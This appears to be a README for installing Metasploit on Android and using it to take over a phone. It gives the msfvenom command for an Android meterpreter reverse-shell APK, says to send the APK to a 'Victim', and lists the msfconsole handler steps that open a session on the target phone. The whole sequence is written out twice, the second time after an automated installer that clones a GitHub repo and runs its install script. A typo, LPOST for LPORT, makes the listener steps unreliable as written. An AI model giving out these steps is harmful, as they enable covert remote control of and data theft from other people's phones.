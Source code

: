 # MANUAL INSTALLATION
-------------------

# metasploit
-------------------------------------------------
<p> Install unstable Repo using this cmd :  <code>apt install unstable-repo </code> </p
<br>
<p> Update using this cmd :  <code>apt update</code> </p>
<br>
<p> Install Metasploit Framework using this cmd :  <code>apt install metasploit-framework </code> </p>
<br>

# After Installing Metasploit Framework
-------------------------------------------------

<p> Create a Android Payload using this cmd :  <br> <code>msfvenom -p android/meterpreter/reverse_tcp LHOST=ip addr LPORT=8001 -o /sdcard/Apk_Name.apk </code> </p>
<br>
  
# After Creating Payload For Android 
-----------------------------------------------------

<p> Send the Apk_Name.apk to your <b>Victim</b> (targeted_user) 
  
# Start a Metasploit Listener
-----------------------------------------------------
<p> open metasploit Console using this cmd :  <code>msfconsole </code> </p>

<h3>In msfconsole</h3> <br>

<ul> Type the following code : <br>
  <li> <code>use exploit/multi/handler</code> </li>
  <li> <code>set payload android/meterpreter/reverse_tcp</code> </li>
  <li> <code>set LHOST ip_addr</code> </li>
  <li> <code>set LPOST 8001</code> </li>
  <li> <code>run</code> </li>
 </ul>
 
 <p>Open the Application in target Phone</p>
 <p>then You will Get the Message Session Created...</p>
 <p> Then Type help cmd <code>help</code></p>
 <p> This will list the set of commands you can execute on target phone..... </p>
  
 # AUTOMATED INSTALL
 --------------------------
 
 <p> Update using this cmd : <code> apt update </code> </p>
 <p> Install Git Using this cmd : <code> apt install git </code> </p>
 <p> After install git type this cmd : <code>git clone https://github.com/snapAPP/metasploit.git<code> </p>
 <p> Then change directory to metasploit folder using this cmd : <code> cd metasploit</code> </p>
 <p> Type this cmd : <code> chmod +x install.sh </code> </p>
 <p> Type the following cmd : <code> ./install.sh </code> </p>
 <p> Then wait for 4-5 mintues it will automatically install Metasploit Framework </p>
 
 # After Installation 
 -------------------------
 
<p> Create a Android Payload using this cmd :  <br> <code>msfvenom -p android/meterpreter/reverse_tcp LHOST=ip addr LPORT=8001 -o /sdcard/Apk_Name.apk </code> </p>
<br>
  
# After Creating Payload For Android 
-----------------------------------------------------

<p> Send the Apk_Name.apk to your <b>Victim</b> (targeted_user) 
  
# Start a Metasploit Listener
-----------------------------------------------------
<p> open metasploit Console using this cmd :  <code>msfconsole </code> </p>

<h3>In msfconsole</h3> <br>

<ul> Type the following code : <br>
  <li> <code>use exploit/multi/handler</code> </li>
  <li> <code>set payload android/meterpreter/reverse_tcp</code> </li>
  <li> <code>set LHOST ip_addr</code> </li>
  <li> <code>set LPOST 8001</code> </li>
  <li> <code>run</code> </li>
 </ul>
 
 
 <p>Open the Application in target Phone</p>
 <p>then You will Get the Message Session Created...</p>
 <p> Then Type help cmd <code>help</code></p>
 <p> This will list the set of commands you can execute on target phone..... </p>
  
